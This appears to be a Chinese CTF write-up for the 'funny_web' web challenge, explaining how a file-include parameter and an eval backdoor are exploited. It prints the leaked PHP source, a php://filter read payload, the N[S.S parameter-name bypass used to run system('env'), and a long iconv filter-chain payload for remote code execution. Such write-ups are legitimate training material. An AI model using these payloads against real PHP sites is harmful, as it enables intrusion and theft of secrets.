 # 【NSSRound#8 Basic】Basic]funny_web


# [SWPUCTF 2022 新生赛]funny_web

## 思路
* 一上来看见一个`file=`

  ```
  http://node7.anna.nssctf.cn:28476/index.php?file=
  ```
  
  考虑php伪协议
  
  页面啥也没有，只有一个空白index.php尝试读这个php
  
  ```
  ?file=php://filter/read=convert.base64-encode/resource=index.php
  ```
  
* 读出base64编码的源码，解码得到：

  ```
  &lt;?php
  error_reporting(0);
  
  if (isset($_GET[&#39;N_S.S&#39;])) {
      eval($_GET[&#39;N_S.S&#39;]);
  }
  
  if(!isset($_GET[&#39;file&#39;])) {
      header(&#39;Location:/index.php?file=&#39;);
  } else {
      $file = $_GET[&#39;file&#39;];
  
      if (!preg_match(&#39;/\.\.|la|data|input|glob|global|var|dict|gopher|file|http|phar|localhost|\?|\*|\~|zip|7z|compress/is&#39;, $file)) {
          include $file;
      } else {
          die(&#39;error.&#39;);
      }
  }
  ```

  发现有GET传参`N_S.S`可以执行命令。但是一直咋传都不行。看别的师傅博客发现是一个php特性。

  &gt; [!NOTE]
  &gt;
  &gt; **一个PHP特性**
  &gt;
  &gt; 在php中变量名字是由数字字母和下划线组成的，所以不论用post还是get传入变量名的时候，php会将怪异的变量名转换成有效的
  &gt;
  &gt; 在进行解析时会**删除空白符**，并将`空格`、`&#43;`、`.`、`[` 转换为**下划线**。但是用一个特性是可以绕过的，就是当 `[` 提前出现后，`[` 会转换成下划线，而**后面的字符就不会再被转义了**。

  然后绕过这个特性用`N[S.S`

  然后可以直接用来rce

  不过唯一的问题就是这flag不在根目录

  要查环境`env`，`system(&#39;env&#39;)`

* 另一种姿势：

  利用 PHP Base64 Filter 宽松的解析，通过 `iconv filter` 等编码组合构造出特定的 PHP 代码进而完成无需**临时文件**的 RCE。来自[Gqleung佬的wp](https://www.ctfer.vip/note/set/1116)

  ```
  ?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=index.php&amp;0=env
  ```

  

## Payload

```
?N[S.S=system(&#39;env&#39;);
```



## 总结

* RCE
* PHP伪协议

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-swpuctf-2022-%E6%96%B0%E7%94%9F%E8%B5%9Bfunny_web/  

